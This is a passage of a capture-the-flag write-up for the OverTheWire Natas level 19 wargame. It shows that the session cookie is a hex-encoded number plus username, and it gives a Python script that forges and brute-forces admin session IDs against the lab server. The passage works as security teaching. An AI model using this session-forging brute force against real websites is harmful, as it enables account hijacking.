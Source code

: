 So the session ID is an hexadecimal number. Let's decode it:

```python
id_hex = requests.utils.dict_from_cookiejar(r.cookies)['PHPSESSID']
print(id_hex.decode('hex'))
```

Mmmm, interesting:

```
0
548-user
1
275-user
2
237-user
3
90-user
4
535-user
(...)
```

The session ID is really a random number (below 640) attached to the given username. That's easy.

#### Crafting the attack:


We write the following script:

```python
import requests

def brute_force_password(AUTH, URL, PAYLOAD, MAXID):
    for i in range(MAXID):
        HEADER ={'Cookie':'PHPSESSID=' + (str(i) + '-admin').encode('hex')}
        r = requests.post(URL, auth=AUTH, params=PAYLOAD, headers=HEADER)
        print(i)
        if "You are an admin" in r.text:
            print(r.text)
            print(r.url)

if __name__ == '__main__':

    AUTH = ('natas19', '***********************')
    URL = 'http://natas19.natas.labs.overthewire.org/index.php?'

    PAYLOAD = ({'debug': '1', 'username': 'admin', 'password': 'pass'})
    MAXID = 640

    brute_force_password(AUTH, URL, PAYLOAD, MAXID)
```

And we get our password in the 501st attempt. Awesome.



_____________________

That's it. The [source code is available] as usual.


Hack all the things!

[source code is available]: https://github.com/bt3gl/CTFs-Gray-Hacker-and-PenTesting/tree/master/Web_Exploits



----

**Aloha, bt3**

[Wargames]: http://overthewire.org/wargames/
[Natas]: http://overthewire.org/wargames/natas/
[robots.txt]: http://en.wikipedia.org/wiki/Robots_exclusion_standard
[referer]: http://en.wikipedia.org/wiki/HTTP_referer
[tampermonkey]: https://chrome.google.com/webstore/detail/tampermonkey/dhdgffkkebhmkfjojejmpbldmpobfkfo?hl=en
[modify-headers]: https://chrome.google.com/webstore/detail/modify-headers-for-google/innpjfdalfhpcoinfnehdnbkglpmogdi?hl=en-US
[edit this cookie]: http://www.editthiscookie.com/start/
[strrev]: http://php.net/manual/en/function.strrev.php
[passthru]: http://php.net/manual/en/function.passthru.php
[OS command injection]: https://www.owasp.org/index.php/OS_Command_Injection
[preg_match]: http://php.net/manual/en/function.preg-match.php
[readfile()]:  http://php.net/manual/en/function.readfile.php
[system]: http://php.net/manual/en/function.system.php
[Burp Suite]: http://portswigger.net/burp/
[FireBug]: http://getfirebug.com/
[this is how you run it]: http://portswigger.net/burp/help/suite_gettingstarted.html
[SQL Injection]: https://www.owasp.org/index.php/SQL_Injection
[SQL wildcards and keywords]: http://www.w3schools.com/sql/sql_wildcards.asp
[SUBSTRING]: http://www.1keydata.com/sql/sql-substring.html
[request]: http://docs.python-requests.org/en/latest/user/quickstart/
[command substitution]: http://www.tldp.org/LDP/abs/html/commandsub.html
[sleep()]: http://dev.mysql.com/doc/refman/5.0/en/miscellaneous-functions.html#function_sleep
[is_numeric]: http://php.net/manual/en/function.is-numeric.php
[SESSION_ID]: http://en.wikipedia.org/wiki/Session_ID
[$_REQUEST]: http://php.net/manual/en/reserved.variables.request.php
[session_starts()]: http://php.net/manual/en/function.session-start.php